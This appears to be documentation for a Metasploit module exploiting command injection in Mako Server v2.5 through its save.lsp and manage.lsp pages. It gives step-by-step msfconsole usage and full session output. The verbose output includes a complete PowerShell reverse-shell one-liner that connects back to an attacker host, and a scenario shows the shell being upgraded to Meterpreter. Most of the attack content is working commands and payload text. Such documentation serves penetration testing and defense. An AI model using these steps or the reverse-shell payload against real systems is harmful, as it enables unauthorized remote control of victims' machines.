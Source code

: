 ## Description

  This module exploits a vulnerability found in Mako Server v2.5.
  It's possible to inject arbitrary OS commands in the Mako Server tutorial page through a PUT request to save.lsp. Attacker input will be saved on the victims machine and can be executed by sending a GET request to manage.lsp.

  Based on the public PoC found here: https://blogs.securiteam.com/index.php/archives/3391

## Vulnerable Application

  [Mako Server](https://makoserver.net) is an application framework for designing web and IoT applications.

  This module has been verified against the following Mako Server versions for Windows XP SP3 and Windows 7 SP1 (x86/x64):
  - v2.5

  Links:
  - [Windows installer](https://makoserver.net/download/mako.windows.x86.exe)
  - [Windows download page](https://makoserver.net/download/windows)
  - [Documentation](https://makoserver.net/documentation/manual/)

## References for vulnerability
  - https://blogs.securiteam.com/index.php/archives/3391
  - https://www.exploit-db.com/exploits/42683

## Verification Steps

  1. Run the installer "mako.windows.x86" on a Windows 7 SP1 (x86/x64) target (with Powershell for this example to work)
  2. After installer finishes, double click the "Mako-Demo" shortcut on the desktop
  3. Start msfconsole on host
  4. Do: ```use exploit/windows/http/makoserver_cmd_exec```
  5. Do: ```set RHOST <IP address of target system>```
  6. Do: ```set PAYLOAD cmd/windows/reverse_powershell```
  7. Do: ```set LHOST <IP address of host system>```
  8. Do: ```exploit```
  9. You should get a Windows command shell

## Example Output
```
msf > use exploit/windows/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49175) at 2017-10-26 21:23:59 -0400

Microsoft Windows
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Smith\Downloads\MakoServer>

```

## Example Verbose Output
```
msf > use exploit/windows/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set VERBOSE true
VERBOSE => true
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > check

[*] Trying to detect running Mako Server and necessary files...
[*] Mako Server save.lsp returns correct ouput.
[*] 10.10.10.3:80 The target appears to be vulnerable.
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Now executing the following command: os.execute([[powershell -w hidden -nop -c function RSC{if ($c.Connected -eq $true) {$c.Close()};if ($p.ExitCode -ne $null) {$p.Close()};exit;};$a='10.10.10.2';$p='4444';$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$p);$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0;$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;Start-Sleep 1;$e=new-object System.Text.AsciiEncoding;while($os.Peek() -ne -1){$o += $e.GetString($os.Read())};$s.Write($e.GetBytes($o),0,$o.Length);$o=$null;$d=$false;$t=0;while (-not $d) {if ($c.Connected -ne $true) {RSC};$pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) {$r=$s.Read($nb,$pos,$nb.Length - $pos);$pos+=$r;if (-not $pos -or $pos -eq 0) {RSC};if ($nb[0..$($pos-1)] -contains 10) {break}};if ($pos -gt 0){$str=$e.GetString($nb,0,$pos);$is.write($str);start-sleep 1;if ($p.ExitCode -ne $null){RSC}else{$o=$e.GetString($os.Read());while($os.Peek() -ne -1){$o += $e.GetString($os.Read());if ($o -eq $str) {$o=''}};$s.Write($e.GetBytes($o),0,$o.length);$o=$null;$str=$null}}else{RSC}};]])
[*] Sending PUT request to save.lsp...
[*] Sending GET request to manage.lsp...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49174) at 2017-10-26 21:21:08 -0400

Microsoft Windows
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Smith\Downloads\MakoServer>

```

## Scenarios

### Targeting Windows 7 SP1 x64 running Mako Server v2.5

  A typical scenario would be to obtain a Windows command shell and then upgrade to a Meterpreter session:

  ```
  msf > use exploit/windows/http/makoserver_cmd_exec 
  msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.2
  RHOST => 10.10.10.2
  msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
  PAYLOAD => cmd/windows/reverse_powershell
  msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.4
  LHOST => 10.10.10.4
  msf exploit(makoserver_cmd_exec) > check
  [*] 10.10.10.2:80 The target appears to be vulnerable.
  msf exploit(makoserver_cmd_exec) > exploit

  [*] Started reverse TCP handler on 10.10.10.4:4444 
  [*] Sending payload to target...
  [*] Command shell session 1 opened (10.10.10.4:4444 -> 10.10.10.2:49189) at 2017-10-25 20:57:56 -0400

  Microsoft Windows
  Copyright (c) Microsoft Corporation.  All rights reserved.

  C:\Users\Smith\Downloads\MakoServer>^Z
  Background session 1? [y/N]  y
  msf exploit(makoserver_cmd_exec) > use multi/manage/shell_to_meterpreter
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type               Information  Connection
    --  ----  ----               -----------  ----------
    1         shell cmd/windows               10.10.10.4:4444 -> 10.10.10.2:49189 (10.10.10.2)
  msf post(shell_to_meterpreter) > set SESSION 1
  SESSION => 1
  msf post(shell_to_meterpreter) > set LPORT 8080
  LPORT => 8080
  msf post(shell_to_meterpreter) > exploit

  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 10.10.10.4:8080
  [-] Powershell is not installed on the target.
  [*] Command stager progress: 1.66% (1699/102108 bytes)
  ...
  [*] Command stager progress: 100.00% (102108/102108 bytes)
  [*] Post module execution completed
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type                     Information                            Connection
    --  ----  ----                     -----------                            ----------
    1         shell cmd/windows                                               10.10.10.4:4444 -> 10.10.10.2:49189 (10.10.10.2)
    2         meterpreter x86/windows  smith-PC\smith @ SMITH-PC  10.10.10.4:8080 -> 10.10.10.2:49190 (10.10.10.2)

  msf post(shell_to_meterpreter) > sessions -i 2
  [*] Starting interaction with 2...

  meterpreter > getuid
  Server username: smith-PC\smith
  meterpreter > sysinfo
  Computer        : SMITH-PC
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```
